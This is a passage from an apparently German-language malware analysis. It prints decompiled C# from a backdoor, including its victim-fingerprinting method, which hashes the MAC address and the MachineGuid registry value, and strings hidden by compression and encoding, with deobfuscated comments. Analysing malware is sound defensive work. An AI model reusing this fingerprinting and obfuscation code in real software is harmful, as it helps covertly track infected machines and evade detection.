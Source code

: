 ```C#
			{
				DelayMin(0, 0);
				if (GetOrCreateUserID(out userId))
				{
					DelayMin(0, 0);
					ConfigManager.ReadServiceStatus(_readonly: false);
					Update();
					instance.Close();
				}
			}
		}
		catch (Exception)
		{
		}
	}
```

#### Erstellen eines Identifiers für den infizierten Computer: CetOrCreateUserID

Die Methode GetOrCreateUserID erstellt einen MD5-Hash der MAC-Adresse und der GUID des aktuellen Computers. Dieser wird von der Malware verwendet, um den identifizierten Computer weltweit eindeutig zu identifizieren. Um die obfuszierten Strings dieser Methode lesbar zu machen, wurde eine Kopie der [Deobfuscation-Methode](Unzipper.cs) erstellt.

```C#
	private static bool GetOrCreateUserID(out byte[] hash64)
	{
		string text = getDeviceMac();
		hash64 = new byte[8];
		Array.Clear(hash64, 0, hash64.Length);
		if (text == null)
		{
			return false;
		}
		text += domain4;
		try
		{
			                                             //Deobfuscated: HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Cryptography                             //Deobfuscated: MachineGuid
			text += RegistryHelper.GetValue(ZipHelper.Unzip("8/B2jYz38Xd29In3dXT28PRzjQn2dwsJdwxyjfHNTC7KL85PK4lxLqosKMlPL0osyKgEAA=="), ZipHelper.Unzip("801MzsjMS3UvzUwBAA=="), "");
		}
		catch
		{
		}
		using (MD5 mD = MD5.Create())
		{
			byte[] bytes = Encoding.ASCII.GetBytes(text);
			byte[] array = mD.ComputeHash(bytes);
			if (array.Length < hash64.Length)
			{
				return false;
			}
			for (int i = 0; i < array.Length; i++)
			{
				hash64[i % hash64.Length] ^= array[i];
			}
		}
		return true;
	}
```
